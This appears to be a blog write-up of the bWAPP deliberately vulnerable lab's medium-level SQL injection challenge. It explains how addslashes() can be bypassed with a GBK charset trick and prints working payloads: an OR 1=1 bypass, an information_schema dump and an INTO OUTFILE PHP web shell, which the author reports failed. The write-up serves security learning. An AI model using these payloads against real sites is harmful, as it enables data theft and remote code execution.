


The fun part about solving vulnerable labs, CTF challenges, or even bug bounties is the thrill of bypassing filters and dodging defense mechanisms. It's an eternal cat-and-mouse game, hackers chasing hackers (or sometimes, just chasing their own tails).

So, I spun up the classic **bWAPP** app with a quick `git clone` and `docker run`, and started throwing the little SQL injection knowledge I’ve got at it. The first lab? Easy peasy and honestly, there are a million writeups floating around for it.

But the real challenge, the one that nearly sent me on a wild goose chase was the **medium** level of the **bWAPP SQL Injection (GET /Search) lab**.

Naturally, I thought, “Let’s peek at the source code and see what kind of ‘defense’ we're dealing with.” And sure enough, inside `sqli_1.php`, I found this little gem that applies different filters based on the `security_level` cookie. Medium is handled by the `case "1"` branch:

```php
include("security.php");
include("security_level_check.php");
include("selections.php");
include("functions_external.php");
include("connect.php");

function sqli($data)
{
    switch($_COOKIE["security_level"])
    {
        case "0" :
            $data = no_check($data);
            break;
            
        case "1" :
            $data = sqli_check_1($data);
            break;

        case "2" :
            $data = sqli_check_2($data);
            break;
            
        default :
            $data = no_check($data);
            break;
    }

    return $data;

}
```  

Cool. Now let’s see what’s actually going on inside `sqli_check_1($data)` which lives in `functions_external.php`.

```php
function sqli_check_1($data)
{
    return addslashes($data);
}
```

Wait... addslashes()? Yep, that’s it.

So I hit up the [PHP Manual](https://www.php.net/manual/en/function.addslashes.php), and sure enough:
> The addslashes() is sometimes incorrectly used to try to prevent SQL Injection. Instead, database-specific escaping functions and/or prepared statements should be used.

Translation? This “defense” is like putting up a cardboard wall and calling it a firewall. Easily bypassable.

I started digging around and found this legendary [blog post by Chris Shiflett](https://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string) (from 2006, but still gold), explaining how `addslashes()` can be bypassed under the right conditions. A [Stack Overflow thread](https://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string) also helped connect the dots.

Turns out, the key to the bypass is all about character encoding. Specifically, **setting the character set to GBK** can turn escaped characters into valid multi-byte sequences, sneaky stuff.

So I jumped into the app’s `connect.php` and added the following line:
```php
mysql_query("SET NAMES gbk");
```

With that in place, I wanted to confirm the character set was successfully changed to GBK. So, with the security level set to low, I ran the following payload to check:
```bash
' UNION SELECT null, @@character_set_client, @@character_set_connection, null, @@character_set_results, null FROM 
```  

{: width = "855" .normal}

Now that the groundwork is laid, it’s time to get busy. Here’s the payload I used:
```bash
¿' OR 1=1-- 
```
Yep, that worked. This confirms that the `addslashes()` defense can be neatly bypassed with the right encoding trick. But let’s take it up a notch.

## Dumping Database Info
At this point, I was already feeling a little smug about bypassing the filter, but why stop there? Time to poke around and see what else I could dig up.

Using the GBK trick and the flawed `addslashes()` defense still in play, I fired off this payload to see what secrets the database was hiding:
```bash
¿' UNION SELECT null, null, table_name, column_name, null, null, null FROM information_schema.columns WHERE table_schema = database()-- 
```  
Boom. Now we have the table names, and their columns, straight from the information_schema. Basically, it’s like grabbing the blueprint to the entire database.

Once you know the structure, the rest is just a matter of choosing what data to steal (uh, responsibly test... of course). It’s wild how much you can extract with just one sneaky query.  
{: width = "855" .normal}

I decided to push my luck and go for remote code execution by trying to drop a PHP web shell onto the server. I found this payload in the world wild web:
```bash
¿' UNION SELECT 1,'<?php echo shell_exec($_GET["cmd"]); ?>',3,4,5,6,7 INTO OUTFILE '/var/www/html/pwned.php'-- 
```
Yeah, you guessed it. This is what the backend query actually looked like after passing through `addslashes()`: 
```bash
\'<?php echo shell_exec($_GET[\"cmd\"]); ?>\'
```
And the INTO OUTFILE part? Same story:
```bash
\'/var/www/html/pwned.php\'
```
Injecting a `¿` will only make it look crappier  
As you can imagine, that backslash party ended in a nice fat error when trying to create the file.
**Maybe** `addslashes()` *did* do something after all (hahaha)...


